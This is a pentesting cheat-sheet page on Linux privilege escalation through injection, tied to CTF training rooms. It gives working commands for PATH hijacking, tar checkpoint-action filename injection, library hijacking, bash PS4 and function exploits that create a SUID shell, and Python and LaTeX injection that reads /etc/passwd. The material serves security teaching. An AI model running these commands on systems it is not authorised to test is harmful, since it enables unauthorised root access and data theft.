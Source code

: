 # Injection

<div class="row row-cols-lg-2"><div>

If there is some code that can is executed as another user, for instance, a [scheduled task](../topics/tasks.md) or a [program with the SUID bit](../topics/perms.md#suidguid-bit), you may be able to modify the code behavior using injection.

➡️ You may need/want to create a [root bash](rootbash.md).
</div><div>

There are basic scenarios in which you can directly exploit the executable, but in other scenarios, you may have to exploit the environment itself. In short, it means you may:

* 🌸 edit the environment variables
* 🌿 edit the files used by the program
* 🎭 create a file named after the parameters of the command. For instance, if the code uses a glob-pattern, the pattern will be replaced with the matching files. So, you may inject parameters.
* 🐦 use a flaw in the script language
* ...
</div></div>

<hr class="sep-both">

## Path Environment variable 🌸

[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![mustacchio](../../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![archangel](../../../../_badges/thm-p/archangel.svg)](https://tryhackme.com/r/room/archangel)
[![bash_system_1](../../../../_badges/rootme/app_script/bash_system_1.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)
[![bash_system_2](../../../../_badges/rootme/app_script/bash_system_2.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)

<div class="row row-cols-lg-2"><div>

If you can run a script, you may try to see if the script uses your PATH to work. The easiest way to test that is to empty your PATH.

```shell!
$ bash -c 'export PATH=; <execute the script>'
"xxx" command not found ====> OK!
```

You can then try to replace the command binary by a [rootbash](rootbash.md). 

```
$ ls /tmp/rootbash # assuming you created your rootbash
$ ln -s /tmp/rootbash # replace the command "xxx"
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```

⚠️ If you are not able to edit the PATH, try to see if you can write files in a folder in the PATH that is before the original folder.
</div><div>

Unfortunately, this doesn't work when the command is invoked with some options, such as `tail -f /var/log/nginx/access.log`.

The trick is to create a script that launches our command. Refer to [Root Bash Script](rootbash.md).

```shell!
$ ln -s /tmp/root.sh /tmp/xxx # your command
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```
</div></div>

<hr class="sep-both">

## Parameters injection  🎭

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linuxstrengthtraining](../../../../_badges/thm/linuxstrengthtraining.svg)](https://tryhackme.com/room/linuxstrengthtraining)
[![ultra_upload](../../../../_badges/rootme/realist/ultra_upload.svg)](https://www.root-me.org/en/Challenges/Cracking/Godot-Mono)

<div class="row row-cols-lg-2"><div>

We can inject arguments when [glob-patterns](/operating-systems/linux/_knowledge/index.md#glob-patterns) are replaced, e.g., by creating file named after the command arguments.

To execute any command manipulating a filename starting with `-`, you need to use `--` such as `rm -- -la` to remove the file `-la`.

For instance, to inject `-la` into `ls *`:

```shell!
$ touch -- -la
$ ls
-la
$ ls * # * was replaced by -la
total 8
drwxr-xr-x 2 xxx xxx 4096 Apr 29 18:50 .
drwxr-xr-x 9 xxx xxx 4096 Apr 29 18:50 ..
-rw-r--r-- 1 xxx xxx    0 Apr 29 18:50 -la
```
</div><div>

While the `--` trick is handy, it may not always work. You can alternatively use the relative path:

```shell!
$ touch './--checkpoint=1'
$ touch './--checkpoint-action=exec="id > id.txt"'
$ touch './--checkpoint-action=exec=id > id.txt'
$ touch './--checkpoint-action=exec=bash script.sh'
```

If you can read files only in a specific folder or having a specific name, you can try using symbolic links:

```ps
$ ln -s /path/to/juicy/file /tmp/script/res/file
```
</div></div>

<hr class="sep-both">

## Library Hijacking

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)

<div class="row row-cols-lg-2"><div>

Shared Object Hijacking or Linker Hijacking is a technique in which we load a malicious `.so` file when executing a potentially misconfigured binary such as `ls` in a potentially misconfigured environment.

A environment is misconfigured when we have write access to a folder defined in `/etc/ld.so.conf`. Such folders are checked in order when looking for a `.so`. It includes standard folders such as `/lib` or `/usr/lib` and may include non-standard writable paths.

If we find a suspicious binary, we can examine it:

```ps
$ ldd <binary>
$ readelf -d <binary>
```

If the binary has the `RUNPATH` folder set and it points to a file/folder we can write to, then we can load our `.so`.
</div><div>

To write a static binary (`.so`), [refer to rootbash#static binary](../utils/rootbash.md#root-bash-static-library) section.

Misconfigured Python installations may also be vulnerable if we are able to write python scripts in the module path.

```shell!
$ python3 -c 'import sys; print("\n".join(sys.path))'
$ touch xxx.py ; PYTHONPATH=`pwd` python -c 'import xxx'
```

Check every imported package using `pip3 show <package>`. If the package is imported from a location that is below a folder in which you can write to, then you can inject your own code.
</div></div>

<hr class="sep-both">

## Bash scripts failures 🐦

<div class="row row-cols-lg-2"><div>

**Bash versions <4.2-048**: it is possible to create functions named after a path, which allows us to execute a command instead. If the path is accessed by a script, then using `-p`, we can create a bash while inheriting the permissions of its creator.

```bash!
function /some/path { /bin/bash -p; }
export -f /some/path
```
</div><div>

**Bash <4.4**: if debug is enabled, we can inject code in the environment variable PS4 used by bash. If the script has the SUID bit, then using this, we could create a bash with the SUID bit too.

```shell!
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/; chmod +xs /tmp/bash)' ./script
```
</div></div>

<hr class="sep-both">

## Special scenarios 📚

<div class="row row-cols-lg-2"><div>

As a reminder, if you can execute commands, then refer to [command injection](/cybersecurity/red-team/s3.exploitation/vulns/injection/command.md) for additional related content. Refer also to: [format strings](/cybersecurity/red-team/s3.exploitation/vulns/memory/format_strings.md).

<br>

#### Python input() function

[![python_input](../../../../_badges/rootme/app_script/python_input.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-input)

This command is used to prompt the user for input. The problem is that we can write python code <small>(e.g., 5+5)</small>.

```py
open('/tmp/passwd_dump', 'w').write(open('/etc/passwd', 'r').read())
```

<br>

#### Latex directives

[![latex_input](../../../../_badges/rootme/app_script/latex_input.svg)](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)
[![latex_command_execution](../../../../_badges/rootme/app_script/latex_command_execution.svg)](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

If we can compile LaTeX, we may be able to

* Execute commands (`\immediate\write18{xxx > buffer}`, `\verbatiminput{buffer}` or using `xxx 1>&2`).
* Read non-LaTeX files using `\input{path_to_file}` or using `\usepackage{verbatim} \verbatiminput{myfile.txt}` (comments)
</div><div>

#### Bash Script Arguments

[![bash_unquoted](../../../../_badges/rootme/app_script/bash_unquoted.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-unquoted-expression-injection)

If the script uses the argument without quoting them nor validating them, we may be able to inject parameters.

```
$ cat xxx.sh
ls $1
$ ./xxx.sh "-la ."
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [axcheron format strings](https://axcheron.github.io/exploit-101-format-strings/)
</div><div>
</div></div>